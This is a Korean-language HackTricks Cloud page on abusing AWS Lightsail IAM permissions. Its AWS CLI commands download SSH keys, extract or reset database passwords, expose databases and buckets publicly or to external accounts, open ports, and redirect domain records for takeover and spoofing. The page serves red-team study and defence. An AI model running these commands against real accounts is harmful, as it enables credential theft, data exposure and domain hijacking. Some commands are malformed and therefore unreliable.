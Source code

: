# AWS - Lightsail 권한 상승

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>을 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**를** **팔로우**하세요.
* **HackTricks**와 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하여 자신의 해킹 기법을 공유하세요.

</details>

## Lightsail

Lightsail에 대한 자세한 정보는 다음을 확인하세요:

{% content-ref url="../aws-services/aws-lightsail-enum.md" %}
[aws-lightsail-enum.md](../aws-services/aws-lightsail-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Lightsail은 사용자에게 속한 IAM 역할이 아닌 AWS 관리 계정에 속하는 IAM 역할을 사용하지 않는다는 점을 주의해야 합니다. 따라서 이 서비스를 이용하여 권한 상승을 할 수는 없지만, 코드, API 키 및 데이터베이스 정보와 같은 **민감한 데이터**가 이 서비스에서 발견될 수 있습니다.
{% endhint %}

### `lightsail:DownloadDefaultKeyPair`

이 권한을 통해 인스턴스에 액세스하기 위한 SSH 키를 가져올 수 있습니다:
```
aws lightsail download-default-key-pair
```
**잠재적 영향:** 인스턴스 내에서 민감한 정보를 찾을 수 있습니다.

### `lightsail:GetInstanceAccessDetails`

이 권한을 통해 인스턴스에 액세스하기 위해 SSH 키를 생성할 수 있습니다:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**잠재적 영향:** 인스턴스 내에서 민감한 정보를 찾을 수 있습니다.

### `lightsail:CreateBucketAccessKey`

이 권한을 통해 버킷에 액세스할 수 있는 키를 얻을 수 있습니다:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**잠재적 영향:** 버킷 내에서 민감한 정보를 찾을 수 있습니다.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

이 권한을 통해 데이터베이스에 액세스하기 위한 자격 증명을 얻을 수 있습니다:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**잠재적 영향:** 데이터베이스 내에서 민감한 정보를 찾을 수 있습니다.

### `lightsail:UpdateRelationalDatabase`

이 권한을 통해 데이터베이스에 액세스하기 위한 비밀번호를 변경할 수 있습니다:

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
{% endcode %}

데이터베이스가 공개되지 않은 경우에도 다음 권한으로 데이터베이스를 공개로 만들 수 있습니다.

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
{% code %}

**잠재적 영향:** 데이터베이스 내에서 민감한 정보를 찾을 수 있습니다.

### `lightsail:OpenInstancePublicPorts`

이 권한은 인터넷으로 포트를 열 수 있게 합니다.

{% endcode %}
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**잠재적 영향:** 민감한 포트에 접근할 수 있습니다.

### `lightsail:PutInstancePublicPorts`

이 권한은 인터넷으로 포트를 열 수 있게 합니다. 이 호출은 지정되지 않은 포트를 닫을 수 있습니다.
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**잠재적 영향:** 민감한 포트에 접근 가능합니다.

### `lightsail:SetResourceAccessForBucket`

이 권한은 추가 자격증명 없이 인스턴스에 버킷 액세스를 제공할 수 있습니다.

{% code overflow="wrap" %}
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
{% endcode %}

**잠재적 영향:** 민감한 정보가 포함된 버킷에 대한 새로운 액세스 가능성.

### `lightsail:UpdateBucket`

이 권한을 가진 공격자는 자신의 AWS 계정에 대한 버킷의 읽기 액세스 권한을 부여하거나 버킷을 모든 사람에게 공개로 설정할 수 있습니다.
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**잠재적 영향:** 민감한 정보가 포함된 버킷에 대한 새로운 액세스 가능성.

### `lightsail:UpdateContainerService`

이 권한을 가진 공격자는 컨테이너 서비스에서 개인 ECR에 대한 액세스 권한을 부여할 수 있습니다.
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**잠재적 영향:** 개인 ECR에서 민감한 정보를 얻을 수 있습니다.

### `lightsail:CreateDomainEntry`

이 권한을 가진 공격자는 서브도메인을 생성하고 자신의 IP 주소로 연결할 수 있습니다 (서브도메인 탈취), 또는 도메인에서 이메일 스푸핑을 허용하는 SPF 레코드를 조작하거나, 심지어 메인 도메인을 자신의 IP 주소로 설정할 수 있습니다.
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**잠재적 영향:** 도메인 탈취

### `lightsail:UpdateDomainEntry`

이 권한을 가진 공격자는 서브도메인을 생성하고 자신의 IP 주소로 연결(subdomain takeover)하거나, 도메인에서 이메일 스푸핑을 허용하는 SPF 레코드를 조작하거나, 심지어 메인 도메인을 자신의 IP 주소로 설정할 수 있습니다.
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**잠재적인 영향:** 도메인 탈취

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)를 **팔로우**하세요.
* **Hacking 트릭을 공유하려면** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하세요.

</details>
